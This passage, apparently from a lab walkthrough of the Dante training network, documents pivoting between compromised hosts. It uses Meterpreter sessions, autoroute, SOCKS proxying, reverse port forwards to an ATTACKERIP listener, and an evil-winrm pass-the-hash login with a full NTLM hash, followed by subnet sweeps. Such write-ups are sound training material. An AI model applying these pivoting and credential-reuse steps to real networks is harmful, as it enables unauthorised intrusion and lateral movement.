

Now I have some reminiscence of seeing other available IP on the 172.16.2.0/24 when I was enumerating from the DANTE-ADMIN-DC-02 so I will go back there since we found out that no 172.16.3.0/24 is available so knowing that DC02 is on that network I guess the other machines must be on that network as well.

We found out a Note on the DC02 that DANTE-NIX02 should be able to reach the ADMIN network as well and should have better performances that relaying from DC01.

To do so we have to perform 3 things:

1.  Setup a Meterpreter session to intial Pivot NIX01 machine.
2.  Setup socks server+autoroute attached to NIX01 metepreter to allow routing thru 172.16.1.0/24
3.  Setup a Meterpreter session to ~~NIX02 machine~~ **DC01 have still to be used instead!**
4.  Setup autoroute to allow routing thru 172.16.2.0/24
5.  Setup a Meterpreter session to DC02 machine
6.  Setup autoroute to allow routing thru 172.16.2.0/24

&nbsp;

First 2 session are ready to be used:

```
msf6 post(multi/manage/autoroute) > route 

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.0.0         255.255.0.0        Session 2
   172.16.1.0         255.255.255.0      Session 1

[*] There are currently no IPv6 routes defined.
msf6 post(multi/manage/autoroute) > sessions 

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter x64/linux  balthazar @ 172.16.1.100  10.10.17.107:4455 -> 10.10.110.100:34292 (::1)
  2         meterpreter x64/linux  frank @ 172.16.1.10       10.10.17.107:4466 -> 10.10.110.3:18113 (::1)

msf6 post(multi/manage/autoroute) >
```

Anyway seems like it's not working at all?



Seems like the performances via MSF+SOCKS are very vad causing the session to hang every 5 min or so, I will use Dyn SSH on NIX01 and then do same to other devices.

```
msf6 post(multi/manage/autoroute) > sessions 
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16

Active sessions
===============

  Id  Name  Type                     Information                Connection
  --  ----  ----                     -----------                ----------
  1         meterpreter x64/windows  DANTE\xadmin @ DANTE-DC01  10.10.17.107:4455 -> 10.10.110.3:17750 (172.16.1.20)

[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
msf6 post(multi/manage/autoroute) > route
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.1.0         255.255.255.0      Session 1
   172.16.2.0         255.255.255.0      Session 1

[*] There are currently no IPv6 routes defined.
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
msf6 post(multi/manage/autoroute) >
```

Lastly I will try another way, hopefully is more stable.

1.  Get a Metepreter to NIX01
2.  Setup SOCKS and routes to 172.16.1.0/24 via NIX01 meterpreter session
3.  Setup reverse portfw on NIX01 to catch a reverse metepreter from DC01
4.  Continue with reverse from DC01 to DC02
5.  DC02 to last machines!

First steps are done:

```
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.1.0         255.255.255.0      Session 1

[*] There are currently no IPv6 routes defined.
msf6 post(multi/manage/autoroute) > jobs 

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy

msf6 post(multi/manage/autoroute) > sessions 

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter x64/linux  balthazar @ 172.16.1.100  10.10.17.107:5555 -> 10.10.110.100:47188 (::1)

msf6 post(multi/manage/autoroute) > sessions 1
[*] Starting interaction with 1...

meterpreter > portfwd 

Active Port Forwards
====================

   Index  Local              Remote     Direction
   -----  -----              ------     ---------
   1      10.10.17.107:8081  [::]:1234  Reverse

1 total active port forwards.

meterpreter >
```

As you see now we can speak correctly to ADMIn subnet via DC01 metepreter shell:

```
msf6 post(multi/gather/ping_sweep) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                Connection
  --  ----  ----                     -----------                ----------
  1         meterpreter x64/linux    balthazar @ 172.16.1.100   10.10.17.107:5555 -> 10.10.110.100:47188 (::1)
  2         meterpreter x64/windows  DANTE\xadmin @ DANTE-DC01  10.10.17.107:8081 -> 10.10.17.107:37991 (172.16.1.20)

msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 172.16.2.0/24
[+]     172.16.2.5 host found
```

Next to be able to reach 162.16.2.5 from our machine we need to setup routes in Metasploit framework so we can use proxychains to launch out commands.

```
msf6 auxiliary(scanner/smb/smb_version) > route 

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.1.0         255.255.255.0      Session 1
   172.16.2.0         255.255.255.0      Session 2

[*] There are currently no IPv6 routes defined.
msf6 auxiliary(scanner/smb/smb_version) >
```

As you see now we can reach the machine DC02 from our machine:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/DANTE]
└─# proxychains evil-winrm -i 172.16.2.5 -u Administrator -H 4c827b7074e99eefd49d05872185f7f8
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.2.5:5985  ...  OK
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
dante\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
DANTE-DC02
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

* * *

## Initial Enumeration of the Network

Now that we have a running connection I will try to run a ping sweep scan on the 172.16.2.x/24 from DC02 and identify other hosts on the network. The real problem is that DC01 can only reach DC02(172.16.2.5), conseguently only DC02 can speak to the other devices on 17.16.2.x/24.

Which means we have to setup the same type of reverse shell on DC01 and daisy chain it to get a smooth communication all the way from and back to us!

Again we prepare the reverse portfw on DC01 shell session and setup a new listener in Metasploit framework:

```
meterpreter > portfwd add -R -l 8082 -p 1234 -L ATTACKERIP
[*] Reverse TCP relay created: (remote) [::]:1234 -> (local) ATTACKERIP:8082
meterpreter > portfwd 

Active Port Forwards
====================

   Index  Local            Remote     Direction
   -----  -----            ------     ---------
   1      ATTACKERIP:8082  [::]:1234  Reverse

1 total active port forwards.

meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT     8082             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8082
```

And finally we have a working sessions:

```
msf6 post(multi/gather/ping_sweep) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                       Connection
  --  ----  ----                     -----------                       ----------
  1         meterpreter x64/linux    balthazar @ 172.16.1.100          10.10.17.107:5555 -> 10.10.110.100:47328 (::1)
  3         meterpreter x64/windows  DANTE\xadmin @ DANTE-DC01         10.10.17.107:8200 -> 10.10.110.3:58331 (172.16.1.20)
  4         meterpreter x64/windows  DANTE\Administrator @ DANTE-DC02  10.10.17.107:8888 -> 10.10.110.3:40671 (172.16.2.5)
```

And seems like from DC02 we can only reach one  machine on .101:

```
msf6 post(multi/gather/ping_sweep) > set rhosts 172.16.2.0/24
rhosts => 172.16.2.0/24
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 172.16.2.0/24
[+]     172.16.2.5 host found
[+]     172.16.2.101 host found
[*] Post module execution completed
msf6 post(multi/gather/ping_sweep) >
```

Running a port scan on the device show like only SSH is open?

```
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.2.101:         - 172.16.2.101:22 - TCP OPEN
```